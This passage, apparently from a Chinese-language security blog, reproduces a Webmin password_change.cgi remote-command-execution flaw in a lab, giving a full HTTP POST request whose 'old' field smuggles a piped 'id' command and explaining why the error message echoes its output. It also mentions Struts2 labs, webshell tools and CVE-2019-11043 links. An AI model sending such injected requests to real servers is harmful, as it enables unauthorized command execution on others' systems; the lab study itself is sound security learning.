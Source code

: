 
```
POST /password_change.cgi HTTP/1.1 Host: 192.168.168.136:10000 Cookie: redirect=1; testing=1 User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:90.0) Gecko/20100101 Firefox/90.0 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8 Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2 Accept-Encoding: gzip, deflate Referer: https://192.168.168.136:10000/Content-Type: application/x-www-form-urlencoded Content-Length: 15 Origin: https://192.168.168.136:10000 Upgrade-Insecure-Requests: 1 Sec-Fetch-Dest: document Sec-Fetch-Mode: navigate Sec-Fetch-Site: same-origin Sec-Fetch-User: 71 Te: trailers Connection: close user=rootxx&pam=&expired=2&old=test|id&new1=test2&new2=test2
```



此处利用其密码错误的报错执行命令处old进行RCE

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ81gsAzy2M1YibTsuPsKhU3ZicZ9vC5346pX1cMuhgSL3QI6plW4Ekj2ibOCdSsvmpwibvT7IZJ9lZCUQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ81gsAzy2M1YibTsuPsKhU3ZDAObr0eHYlqk5NcsrwMD1MSAlZ0CVstxbvOJu62jteccLiaFh82eHMg/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

可以发现在报错信息里返回了攻击者插入的命令的执行结果



小结：这里是利用密码重置功能发生了缺陷，对用户输入未进行过滤，通过管道符实现命令执行，只有在发送的user参数的值不是已知Linux用户的情况下，才会进入到修改 /etc/shadow 的地方，触发命令注入漏洞。

**进一步的试验**

在vulhub上有大量的有关Struts2各个版本的RCE漏洞 有空了一一复现看看逻辑（去补代码知识了）题外话：菜刀 蚁剑 与 一句话木马 本质上就是RCE



- 
- 
- 

```
https://www.cnblogs.com/ermei/p/6689005.html //JAVA web网站代码审计 http://blog.leanote.com/post/snowming/9da184ef24bd //CVE-2019-11043    #这个漏洞挺有意思的 进一步深入研究下
```